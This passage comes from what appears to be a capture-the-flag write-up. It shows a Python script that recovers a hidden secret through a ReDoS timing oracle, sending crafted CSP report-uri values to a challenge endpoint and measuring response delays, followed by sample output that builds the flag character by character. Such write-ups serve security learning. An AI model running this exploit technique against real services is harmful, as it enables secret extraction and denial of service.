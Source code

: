 ```python
    return ".{" + str(i) + "}$"

def nth_char_is(i, char):
    return ".{" + str(i-1) + "}" + re.escape(char) + ".*$"

def  redos_if(regexp):
    redos = "^(?={})(((.*)*)*)*{}".format(regexp, salt)
    print(redos)
    return redos

def do_request(code):
    csp = f'report-uri http://127.1:1337/deactivate?secretCode={code}'
    data = {"csp": csp}
    response = requests.post(url+ '/api/evaluate', headers=headers, json=data)
    if response.elapsed.total_seconds() > 2:
        return True
    return False

# find the length of the flag
for i in range(1,50):
    if do_request(urllib.parse.quote_plus(redos_if(length_is(i)))):
        secret_length = i
        print(f"SECRET LENGTH:{i}")
        break

if secret_length == 0:
    print("Secret length not found")
    exit

# find the flag
characters  = string.printable
flag = ""
for i in range(0, secret_length):
    for char in characters:
        if do_request(urllib.parse.quote_plus(redos_if(nth_char_is(i+1, char)))):
            flag += char
        print(flag)
print(f"SECRET: {flag}")
```

### Output
The output below contains a few parts of the output to avoid dumping a bunch of lines. I added this output to show the inner workings of how the script gets to the flag value. You can see the script going through the regex pattern and filling in each character until it reaches an execution time of 2 seconds meaning that the regex contains the right character at that position of the flag. With these findings we can build up the flag value.
```
HTB{b
^(?=.{4}u.*$)(((.*)*)*)*salt$
HTB{b
^(?=.{4}v.*$)(((.*)*)*)*salt$
HTB{b
^(?=.{4}w.*$)(((.*)*)*)*salt$
HTB{b
^(?=.{4}x.*$)(((.*)*)*)*salt$
HTB{b
^(?=.{4}y.*$)(((.*)*)*)*salt$
HTB{b
^(?=.{4}z.*$)(((.*)*)*)*salt$
HTB{b
^(?=.{4}A.*$)(((.*)*)*)*salt$
HTB{b
^(?=.{4}B.*$)(((.*)*)*)*salt$
```